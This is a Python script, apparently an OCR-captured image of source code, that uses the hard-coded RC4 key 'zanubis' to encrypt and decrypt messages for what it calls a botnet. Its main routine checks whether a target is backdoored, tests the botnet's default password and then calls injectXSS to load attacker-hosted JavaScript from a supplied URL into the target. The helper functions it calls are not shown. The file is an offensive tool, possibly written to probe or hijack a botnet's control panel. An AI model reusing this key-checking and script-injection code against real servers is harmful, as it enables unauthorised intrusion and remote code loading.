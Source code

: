 ```python
def convert_key(s):
  return [ord(c) for c in s]

def decrypt(msg, key="zanubis"):
  ret = ""
  key = convert_key(key)
  keystream = RC4(key)

  msg = base64.b64decode(msg)
  msg = msg.decode('hex')
  for c in msg:
    mychar = chr(ord(c) ^ keystream.next())
    ret += mychar

  return ret


def encrypt(msg, key="zanubis"):
  ret = ""
  key = convert_key(key)
  keystream = RC4(key)

  for c in msg:
    mychar = chr(ord(c) ^ keystream.next())
    ret += mychar.encode('hex')

  ret = base64.b64encode(ret)
  return ret


if __name__ == "__main__":

  if len(sys.argv) != 3:
    print("Usage: python {} <target> <jsurl>".format(sys.argv[0]))
    print("Usage: python {} http://secure.com/ 10.1.1.20/jquery.js".format(sys.argv[0]))
    sys.exit(0)

  target = sys.argv[1]
  jsurl = sys.argv[2]

  if isBackdoored(target):
    print("[+] {} is backdoored...".format(target))
    sys.exit(0)

  if checkKey(target):
    print("[+] Botnet uses default pw: zanubis")
    print("[+] XSS Possible!")
    injectXSS(target, jsurl)
  else:
    print("[-] Botnet uses non-default pw...")


```
